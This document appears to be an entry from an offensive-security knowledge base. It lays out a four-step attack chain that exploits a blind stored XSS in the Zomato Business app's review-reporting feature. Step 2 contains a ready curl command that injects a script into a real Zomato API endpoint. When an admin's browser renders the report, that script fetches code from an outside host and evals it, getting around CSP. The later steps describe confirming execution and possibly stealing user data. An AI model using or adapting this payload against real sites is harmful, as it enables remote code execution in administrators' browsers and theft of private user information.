

---
tags:
  - xss
  - stored-xss
  - blind-xss
  - web
  - javascript
  - csp-bypass
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Mobile App
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Prepare-XSS-Payload-for-Review-Report]]'
  - '[[procedures/Send-Review-Report-Request-with-Burp-Suite]]'
  - '[[procedures/Trigger-XSS-on-Admin-Review-Page]]'
  - '[[procedures/Observe-and-Verify-XSS-Execution]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:39.108Z'
description: >-
  A multi-step attack exploiting a blind stored XSS vulnerability in the Zomato
  Business app's review reporting feature to execute arbitrary JavaScript in an
  admin's browser, bypassing CSP and potentially accessing private user data.
skill_level: intermediate
impact_level: high
id: a352f48d-a59e-47f7-bb73-69ec85b16cb0
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Blind Stored XSS in Zomato Review Reporting for Admin JavaScript Execution

Multi-stage attack chain demonstrating exploitation of a blind stored XSS in the Zomato Business app's review reporting feature, allowing arbitrary JavaScript execution in an admin's browser to access private user information.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform with Zomato Business app integration
- Admin panel access for triggering (simulated by reporting a review)
- Valid access token for authenticated requests

### Initial Access Requirements

- Valid X-Access-Token for Zomato API
- Knowledge of a reportable review ID
- Network access to Zomato endpoints

## Detailed Attack Procedures

### Step 1: Prepare XSS Payload
procedure: [[procedures/Prepare-XSS-Payload-for-Review-Report]]

**Objective**: Craft a JavaScript payload that evades CSP and executes external code upon rendering in the admin panel.

**Instructions**: Define the payload as a script tag containing an XMLHttpRequest to load and eval an external script from a controlled domain.

**Expected Output**: XSS payload string ready for insertion into the additional_text parameter.

**Success Indicators**:
- Payload syntax validated without errors
- Payload includes CSP bypass via XMLHttpRequest

### Step 2: Send Review Report Request
procedure: [[procedures/Send-Review-Report-Request-with-Burp-Suite]]

**Objective**: Submit a malicious review report via POST request to store the XSS payload in the backend.

**Instructions**: Use [[tools/Burp-Suite]] to intercept and modify the request, setting the additional_text to the XSS payload. Execute [[commands/curl-send-xss-report]] as an alternative for non-interceptive sending:

```bash
curl -X POST 'https://www.zomato.com/api/v2/merchant/report_review' \
  -H 'X-Access-Token: YOUR_VALID_TOKEN' \
  -d 'reason_id=5&review_id=32288944&additional_text=<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ks.xss.ht");a.send();</script>'
```

**Expected Output**: HTTP 200 response confirming report submission.

**Success Indicators**:
- Report accepted without validation errors
- Payload stored in backend

### Step 3: Trigger XSS on Admin Review Page
procedure: [[procedures/Trigger-XSS-on-Admin-Review-Page]]

**Objective**: Direct an admin (or simulate) to the review page where the unsanitized additional_text is rendered as HTML.

**Instructions**: Navigate to the admin reviews page with the reported review ID. No command needed; use browser to visit the URL.

**Expected Output**: Page loads with the reported review details.

**Success Indicators**:
- Admin panel displays the report
- Additional text field renders HTML

### Step 4: Observe and Verify XSS Execution
procedure: [[procedures/Observe-and-Verify-XSS-Execution]]

**Objective**: Confirm arbitrary JavaScript execution, including external script loading and potential data exfiltration.

**Instructions**: Monitor browser console or network tab for XMLHttpRequest to external domain. The payload should load and eval the script from //ks.xss.ht.

**Expected Output**: JavaScript execution in admin context, with network request to external XSS domain.

**Success Indicators**:
- Console logs or alerts from executed script
- Successful CSP bypass and external resource load
- Potential AJAX calls to steal user data

## Attack Chain Summary

### Key Achievements

1. Stored XSS payload via unsanitized additional_text in review reports
2. CSP bypass using XMLHttpRequest for external script execution
3. Arbitrary JS in admin browser for data access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
